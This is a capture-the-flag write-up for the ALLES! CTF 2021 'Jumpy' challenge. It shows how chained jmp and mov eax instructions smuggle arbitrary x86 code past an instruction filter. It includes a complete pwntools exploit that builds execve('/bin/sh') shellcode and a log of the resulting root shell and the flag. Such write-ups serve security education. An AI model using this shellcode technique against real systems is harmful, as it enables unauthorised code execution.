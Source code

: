 ## Jumpy

> Points: 139
>
> Solves: 82

### Description:
![](./41zPfaL3WFL.jpg)

### Attachments:
```
jumpy  https://static.allesctf.net/ab1671dfdbc9923949d2dbc2bf1ff66006f86bb623cd9b2cbf94ce3f631dfbdd/jumpy
jumpy.c  https://static.allesctf.net/e8f31b0fc631eb709049df0d42491ddca1562a016474c10fdb03cf66f58113c8/jumpy.c
```

## Analysis:

The C language source code is provided below.
![](./jumpy.c)

When you execute the jampy program, you can see that only 3 instructions can be specified.
supported insns:
- moveax $imm32
- jmp $imm8
- ret
- (EOF)

After the jmp instruction, it is checked if the next instruction is mov eax or jmp or ret.

```c
const instruction_t INSNS[3] = {
    {"ret", OP_RET},
    {"jmp", OP_SHORT_JMP},
    {"moveax", OP_MOV_EAX_IMM32},
};

const instruction_t *isns_by_mnemonic(char *mnemonic)
{
    for (int i = 0; i < sizeof(INSNS) / sizeof(INSNS[0]); i++)
        if (!strcmp(mnemonic, INSNS[i].mnemonic))
            return &INSNS[i];
    return NULL;
}
```

## Solution:

Since there is no instruction check after mov eax, I can execute any 4-byte instruction by made the following instruction sequence.

jmp 1
moveax 0xb8
moveax (Arbitrary 4-byte instruction)

```
             mov eax
          +-----------+
          |           |        
eb 01 b8 b8 00 00 00 b8 xx xx xx xx
|         ^
|         |
+---------+
   jmp 1

```

Since "/bin/sh" has 4 bytes or more and the mmap area (0x1337000000) cannot be written, the character string of "/bin/sh" was made on the stack.
```
mov bx, 0x68
shl rbx, 16
mov bx, 0x732f
shl rbx, 16
mov bx, 0x6e69
shl rbx, 16
mov bx, 0x622f
push rbx; mov rdi, rsp
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './jumpy'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  s = process("ncat --ssl 7b000000d136daaf77c18b37-jumpy.challenge.master.allesctf.net 31337", shell=True)
else:
  s = process(BINARY)
 
def Set_ins(data):
  s.sendlineafter("> ", "jmp 1")
  s.sendlineafter("> ", "moveax 184")
  s.sendlineafter("> ", "moveax " + str(u32(data)))

# rsi = 0; rdx = 0
Set_ins(asm('''xor rsi, rsi; nop'''))
Set_ins(asm('''push rsi; pop rdx; nop; nop'''))

# make /bin/sh in stack
Set_ins(asm('''mov bx, 0x68'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x732f'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x6e69'''))
Set_ins(asm('''shl rbx, 16'''))
Set_ins(asm('''mov bx, 0x622f'''))
Set_ins(asm('''push rbx; mov rdi, rsp'''))

# rax = 0x3b
# syscall
Set_ins(asm('''xor rbx, rbx; nop'''))
Set_ins(asm('''add rbx, 0x3b'''))
Set_ins(asm('''push rbx; pop rax; syscall'''))

# Start shell
s.sendlineafter("> ", "a")

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/ALLES!_CTF_2021/Pwn_Jumpy$ python solve.py r
[*] '/home/mito/CTF/ALLES!_CTF_2021/Pwn_Jumpy/jumpy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/bin/sh': pid 62372
[*] Switching to interactive mode

running your code...
$ id
uid=0(root) gid=0(root) groups=0(root)
$ ls -l
total 92
lrwxrwxrwx   1 root root     7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 15  2020 boot
drwxr-xr-x   5 root root   360 Sep  4 08:08 dev
drwxr-xr-x   1 root root  4096 Sep  4 08:08 etc
-rw-r--r--   1 root root   100 Aug 29 22:12 flag
drwxr-xr-x   2 root root  4096 Apr 15  2020 home
-rwxr-xr-x   1 root root 19768 Aug 29 22:12 jumpy
lrwxrwxrwx   1 root root     7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 27 07:16 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Aug 27 07:16 media
drwxr-xr-x   2 root root  4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root  4096 Aug 27 07:16 opt
dr-xr-xr-x 783 root root     0 Sep  4 08:08 proc
drwx------   2 root root  4096 Aug 27 07:27 root
drwxr-xr-x   5 root root  4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root     8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root     0 Sep  4 08:08 sys
drwxrwxrwt   2 root root  4096 Aug 27 07:27 tmp
drwxr-xr-x  13 root root  4096 Aug 27 07:16 usr
drwxr-xr-x  11 root root  4096 Aug 27 07:27 var
-rwxr-xr-x   1 root root 18744 Aug 29 22:12 ynetd
$ cat flag
ALLES!{people have probably done this before but my google foo is weak. segmented shellcode maybe?}
```
